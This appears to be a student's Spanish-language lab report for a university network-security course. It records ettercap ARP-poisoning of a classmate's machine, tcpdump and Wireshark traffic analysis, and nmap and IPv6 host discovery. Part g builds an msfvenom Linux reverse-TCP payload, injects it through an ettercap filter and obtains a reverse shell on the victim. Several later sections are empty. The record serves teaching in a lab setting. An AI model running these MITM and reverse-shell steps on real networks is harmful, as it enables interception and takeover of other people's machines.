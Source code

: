 # PRACTICA 2 LSI

<details>
  <summary>a) Instale el ettercap y pruebe sus opciones básicas en línea de comando.</summary>

  ```console
  root@debian:/home/lsi# apt install ettercap-text-only
  ```
</details>
<details>
  <summary>b) Capture paquetería variada de su compañero de prácticas que incluya varias sesiones HTTP. Sobre esta paquetería (puede utilizar el wireshark para los siguientes subapartados)</summary>

  Previo a los apartados debemos hacer un MITM a la máquina de nuestro compañero :
  ```console
root@debian:/home/lsi# ettercap -T -q -i ens33 -M arp:remote //10.11.48.183/ //10.11.48.1/

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Listening on:
 ens33 -> 00:50:56:97:15:21
	  10.11.48.71/255.255.254.0
	  fe80::250:56ff:fe97:1521/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.11.48.183 00:50:56:97:EB:AC

 GROUP 2 : 10.11.48.1 DC:08:56:10:84:B9
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help
  ```
Luego en otra terminal hacemos un tcpdump para guardar el trafico
```console
root@debian:/home/lsi# tcpdump -i ens33 -s 65535 -w compa.pcap
tcpdump: listening on ens33, link-type EN10MB (Ethernet), snapshot length 65535 bytes
916 packets captured
919 packets received by filter
0 packets dropped by kernel
```
Este archivo me lo paso a mi máquina real y lo leo desde Wireshark.

  -  Identifique los campos de cabecera de un paquete TCP
```console
     Frame 6: 66 bytes on wire (528 bits), 66 bytes captured (528 bits)
Ethernet II, Src: Alcatel-_10:84:b9 (dc:08:56:10:84:b9), Dst: VMware_97:15:21 (00:50:56:97:15:21)
Internet Protocol Version 4, Src: 10.20.38.93, Dst: 10.11.48.71
Transmission Control Protocol, Src Port: 56904, Dst Port: 22, Seq: 1, Ack: 45, Len: 0
    Source Port: 56904
    Destination Port: 22
    [Stream index: 0]
    [Conversation completeness: Incomplete (12)]
    [TCP Segment Len: 0]
    Sequence Number: 1    (relative sequence number)
    Sequence Number (raw): 2990874455
    [Next Sequence Number: 1    (relative sequence number)]
    Acknowledgment Number: 45    (relative ack number)
    Acknowledgment number (raw): 1338463224
    1000 .... = Header Length: 32 bytes (8)
    Flags: 0x010 (ACK)
    Window: 501
    [Calculated window size: 501]
    [Window size scaling factor: -1 (unknown)]
    Checksum: 0x6622 [unverified]
    [Checksum Status: Unverified]
    Urgent Pointer: 0
    Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
    [Timestamps]
    [SEQ/ACK analysis]
```
     
  -  Filtre la captura para obtener el tráfico HTTP
  -  Obtenga los distintos “objetos” del tráfico HTTP (imágenes, pdfs, etc.)
  -  Visualice la paquetería TCP de una determinada sesión.

      Analyze > Follow > TCP Stream
  
  -  Sobre el total de la paquetería obtenga estadísticas del tráfico por protocolo como fuente de información para un análisis básico del tráfico.

     Statistics > Protocol Hierarchy
  
  -  Obtenga información del tráfico de las distintas “conversaciones” mantenidas.

     Statistics > Conversations
  
  -  Obtenga direcciones finales del tráfico de los distintos protocolos como mecanismo para determinar qué circula por nuestras redes.

     Statistics > Endpoints

</details>
<details>
	<summary>c) Obtenga la relación de las direcciones MAC de los equipos de su segmento.</summary>

```console
 root@debian:/home/lsi# nmap -sP 10.11.48.0/23 >> nmap.txt
```
En el archivo .txt podemos ver las direcciones MAC.

</details>

<details>
	<summary>d) Obtenga la relación de las direcciones IPv6 de su segmento.</summary>

 ```console
root@debian:/home/lsi#  ping6 -c2 -I ens33 ff02::1 >> ipv6.txt
root@debian:/home/lsi# ip -6 neigh >> neighbours.txt
 ```
</details>
<details>
	<summary>f) Mediante arpspoofing entre una máquina objetivo (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima.</summary>

</details>
<details>
	<summary>g) Instale metasploit. Haga un ejecutable que incluya un Reverse TCP meterpreter payload para plataformas linux. Inclúyalo en un filtro ettercap y aplique toda su sabiduría en ingeniería social para que una víctima u objetivo lo ejecute.</summary>

1. Instalar metasploit
```console
  root@debian:/home/lsi# curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```
2. Creamos el playload:
```console
root@debian:/home/lsi# msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.11.48.71 LPORT=4444 -f elf > payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

```
3. Lo metemos en la victima :
```console
root@debian:/home/lsi# nano ett.filter
root@debian:/home/lsi# etterfilter ett.filter -o ig.ef

etterfilter 0.8.3.1 copyright 2001-2020 Ettercap Development Team


 14 protocol tables loaded:
	DECODED DATA udp tcp esp gre icmp ipv6 ip arp wifi fddi tr eth 

 13 constants loaded:
	VRRP OSPF GRE UDP TCP ESP ICMP6 ICMP PPTP PPPOE IP6 IP ARP 

 Parsing source file 'ett.filter'  done.

 Unfolding the meta-tree  done.

 Converting labels to real offsets  done.

 Writing output to 'ig.ef'  done.

 -> Script encoded into 6 instructions.


root@debian:/home/lsi# echo 1 > /proc/sys/net/ipv4/ip_forward

root@debian:/home/lsi# ettercap -T -F ig.ef -i ens33 -q -M arp:remote //10.11.48.183/ //10.11.48.1/

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Content filters loaded from ig.ef...
Listening on:
 ens33 -> 00:50:56:97:15:21
	  10.11.48.71/255.255.254.0
	  fe80::250:56ff:fe97:1521/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.11.48.183 00:50:56:97:EB:AC

 GROUP 2 : 10.11.48.1 DC:08:56:10:84:B9
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

```
4. Reverse shell en el atacante :
```console
root@debian:/home/lsi# msfconsole
Metasploit tip: View all productivity tips with the tips command
                                                  

         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.3.42-dev-                         ]
+ -- --=[ 2374 exploits - 1230 auxiliary - 414 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.11.48.71
LHOST => 10.11.48.71
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.11.48.71:4444 
[*] Sending stage (36 bytes) to 10.11.48.183
ls
[*] Command shell session 1 opened (10.11.48.71:4444 -> 10.11.48.183:44364) at 2023-11-07 16:05:31 +0100

Descargas
Documentos
Escritorio
Imágenes
Música
Plantillas
Público
Vídeos
coreruleset-3.3.0
dict.txt
etter.filter
logsInicio
logssh
ossec-hids-3.7.0
ossec-hids-3.7.0.zip
payload.bin
echo h4ck3d > h4ck3d.txt
cat h4ck3d.txt
h4ck3d
exit
[*] 10.11.48.183 - Command shell session 1 closed.
msf6 exploit(multi/handler) > 

```
	
</details>
<details>
	<summary>h) Haga un MITM en IPv6 y visualice la paquetería.</summary>
</details>




<details>
	<summary>i) Pruebe alguna herramienta y técnica de detección del sniffing (preferiblemente arpon).</summary>
</details>
<details>
	<summary>j) Pruebe distintas técnicas de host discovey, port scanning y OS fingerprinting sobre las máquinas del laboratorio de prácticas en IPv4. Realice alguna de las pruebas de port scanning sobre IPv6. ¿Coinciden los servicios prestados por un sistema con los de IPv4?.</summary>
</details>
<details>
	<summary>k) Obtenga información “en tiempo real” sobre las conexiones de su máquina, así como del ancho de banda consumido en cada una de ellas.</summary>
</details>
